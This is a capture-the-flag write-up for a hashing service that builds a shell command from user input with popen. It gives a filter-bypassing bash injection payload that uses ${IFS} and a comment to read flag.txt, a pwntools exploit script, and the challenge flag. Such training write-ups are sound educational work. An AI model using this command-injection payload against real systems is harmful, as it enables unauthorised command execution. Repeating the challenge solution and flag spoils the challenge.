

## Remote host

```bash
nc sha256.challs.cyberchallenge.it 9403
```

---

## Checksec



---

## Service description

This service allows you to send an input string and get the corresponding SHA256 hash digest. The input hash is then compared to the flag hash and if the two match you'll get a nice congratulations message. The plain text you pass to the program must start with `CCIT{` and end with `}`, also it mustn't contain the following chars: `'`, `\t`, `\x20`,  `*` and `?`.

---

## Solution (bash code injection)

#### Bash code injection

Looking closely at the hashing function I noticed that the hash is calculated with a `bash command`:
```c
__sprintf_chk(sha256_hash, 1LL, 1024LL, "echo -n \"%s\" | sha256sum | cut -f 1 -d \\ ", plain_text);

cmd_output = popen(sha256_hash, "r");
```

So we should probably be able to inject some code to print the flag. The only problem are the forbidden chars.

---

## Payload

I created the following payload to bypass all filters:
```
CCIT{";cat${IFS}flag.txt;#}
```

#### explanation:
- the payload must start with `CCIT{`,
- then we need to exit the quoting of the `echo command` with `"`,
- then we put `;` to concatenate a command,
- `cat` is the command to print,
- `${IFS}` is an enviromental variable containing a space (to bypass `\x20` char filter),
- `flag.txt` is the argument to the command `cat`,
- Then we put `;` to concatenate a comment,
- `#` is used in bash to create an inline comment, we use it to remove the next part of the command which is doing the piping to `sha256sum` and `cut`,
- then we need to end the payload string with `}`.

---

## Final exploit

```python
from pwn import *

exe = ELF("./inverting_sha256_4fap")

def conn():
	if args.GDB:
		r = gdb.debug([exe.path])
	elif args.REMOTE:
		r = remote("sha256.challs.cyberchallenge.it", 9403)
	else:
		r = process([exe.path])
	
	return r

r = conn()
payload = b"CCIT{\";cat${IFS}flag.txt;#}"
r.sendlineafter(b"Input: ", payload)
  
r.interactive()
```
#### P.S:
Using hex encoded chars like `\x20` doesn't work because the `\` is escaped by `fgets`.

---

## Flag
```
CCIT{Inj3cTioN_att4cKs_R_n0t_only_1n_W3B_cHallenge5}
```
